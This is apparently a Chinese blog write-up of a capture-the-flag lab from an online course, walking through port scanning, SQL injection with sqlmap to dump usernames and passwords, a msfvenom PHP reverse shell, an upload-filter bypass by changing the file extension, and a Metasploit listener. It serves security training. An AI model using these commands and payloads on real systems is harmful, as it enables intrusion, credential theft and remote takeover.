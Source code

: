 ```yaml
---
title: 【网络安全0x06】SQL注入之get参数注入
date: 2020-05-26 11:53:08
tags: [网络安全, owasp_zap, sqlmap, metasploit]
---
```


51CTO的网课，本篇利用nmap搜索开放端口，dirb挖掘敏感目录，使用owasp zap扫描可利用漏洞，用sqlmap进行get参数注入，获取用户名和口令，上传反弹shell，获得权限，拿到flag。

本篇使用工具owasp zap，sqlmap，metasploit。

<!-- more -->

# 使用命令

## sqlmap

``` bash
sqlmap -u [“url”] --dbs #获取数据库
sqlmap -u [“url”] --current-user #获取当前用户名称 ：
sqlmap -u [“url”] --current-db #获取当前数据库名称
sqlmap -u [“url”] -D [‘数据库名’] --tables   #列出表名 ： 
sqlmap -u [“url”] -D [‘数据库名’] -T[‘表名’] --columns #列出字段 
sqlmap -u [“url”] -D [‘数据库名’] -T [‘表名’] -C [‘字段名1,字段名2,…’] --dump #获取字段内容
```

## metasploit

``` bash
# msfvenom生成php反弹shell
msfvenom -p php/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机port -f raw > shell.php

# msf开启监听
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 攻击机IP
>set lport 攻击机port
```

# 渗透记录

1. nmap扫描靶机IP地址开放端口，`nc`命令探测大端口的banner，获得两个flag：

``` bash
nmap -sV 192.168.1.116
```

![](./1056/1.PNG)

2. `nikto`挖掘`80`端口web信息，找到登录页面：

``` bash
nikto -host http://192.168.1.116/
```

![](./1056/2.PNG)

3. 访问登录页面，尝试弱口令**admin**登录失败：

![](./1056/3.PNG)

4. 使用`owasp zap`扫描网站可利用漏洞，这里利用SQL高危漏洞：

![](./1056/4.PNG)

5. 使用`sqlmap`扫描，可以看到多种get参数注入：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3"
```

![](./1056/5.PNG)

6. 查看数据库列表：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" --dbs
```

![](./1056/6.PNG)

7. 查看`photoblog`数据库的表：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" -D photoblog --tables
```

![](./1056/7.PNG)

8. 查看`users`表的字段：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" -D photoblog -T users --columns
```

![](./1056/8.PNG)

9. 查看`login`和`password`字段内容，得到口令密码：

``` bash
sqlmap -u "http://192.168.1.116/cat.php?id=3" -D photoblog -T users -C login,password --dump
```

![](./1056/9.PNG)

10. 使用口令密码登录后台，准备制作反弹shell来上传：

![](./1056/10.PNG)

11. `msfvenom`制作php反弹shell，编辑掉前面的`/*`：

``` bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=攻击机IP LPORT=攻击机port -f raw > shell.php
```

![](./1056/11.PNG)

12. 网站上传失败，提示**NO PHP!!**：

![](./1056/12.PNG)

13. 修改后缀php变成PHP，绕过检测，上传成功：

![](./1056/13.PNG)

![](./1056/14.PNG)

14. msf设置监听参数：

``` bash
msfconsole
>use exploit/multi/handler
>set payload php/meterpreter/reverse_tcp
>set lhost 192.168.1.114
```

![](./1056/15.PNG)

15. msf开启监听，网站点击shell，靶机拿到shell，不过登录没有flag：

![](./1056/16.PNG)

# 参考资料

1. [2020发布 CTF基础入门/CTF教程零基础 渗透测试/web安全/CTF夺旗【整套教程】](https://www.bilibili.com/video/BV1SJ411h7VW)